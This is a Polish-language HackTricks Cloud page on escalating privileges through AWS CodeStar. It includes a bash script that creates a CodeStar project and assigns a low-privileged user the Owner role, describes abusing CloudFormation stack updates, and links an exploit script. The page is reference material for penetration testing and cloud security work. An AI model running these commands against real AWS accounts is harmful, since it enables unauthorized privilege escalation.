 # AWS - Codestar Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Codestar

Możesz znaleźć więcej informacji o codestar w:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

Dzięki tym uprawnieniom możesz **nadużyć roli IAM codestar**, aby wykonać **dowolne działania** za pomocą **szablonu cloudformation**. Sprawdź następującą stronę:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Ta technika wykorzystuje `codestar:CreateProject`, aby stworzyć projekt codestar, oraz `codestar:AssociateTeamMember`, aby uczynić użytkownika IAM **właścicielem** nowego projektu CodeStar, co przyzna im **nową politykę z kilkoma dodatkowymi uprawnieniami**.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Jeśli jesteś już **członkiem projektu**, możesz użyć uprawnienia **`codestar:UpdateTeamMember`**, aby **zaktualizować swoją rolę** na właściciela zamiast `codestar:AssociateTeamMember`.

**Potencjalny wpływ:** Privesc do polityki codestar. Możesz znaleźć przykład tej polityki w:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Utwórz nowy projekt:**
* Wykorzystaj akcję **`codestar:CreateProjectFromTemplate`**, aby rozpocząć tworzenie nowego projektu.
* Po pomyślnym utworzeniu, dostęp jest automatycznie przyznawany dla **`cloudformation:UpdateStack`**.
* Ten dostęp dotyczy konkretnej stosu powiązanej z rolą IAM `CodeStarWorker-<nazwa ogólna projektu>-CloudFormation`.
2. **Zaktualizuj docelowy stos:**
* Z przyznanymi uprawnieniami CloudFormation, przystąp do aktualizacji określonego stosu.
* Nazwa stosu zazwyczaj będzie odpowiadać jednemu z dwóch wzorców:
* `awscodestar-<nazwa ogólna projektu>-infrastructure`
* `awscodestar-<nazwa ogólna projektu>-lambda`
* Dokładna nazwa zależy od wybranego szablonu (odnosząc się do przykładowego skryptu exploit).
3. **Dostęp i uprawnienia:**
* Po aktualizacji uzyskujesz możliwości przypisane do **roli IAM CloudFormation** powiązanej z tym stosem.
* Uwaga: To nie zapewnia z natury pełnych uprawnień administratora. Dodatkowe źle skonfigurowane zasoby w środowisku mogą być wymagane do dalszego podniesienia uprawnień.

Aby uzyskać więcej informacji, sprawdź oryginalne badania: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Możesz znaleźć exploit w [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)

**Potencjalny wpływ:** Privesc do roli IAM cloudformation.

{% hint style="success" %}
Ucz się i ćwicz hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
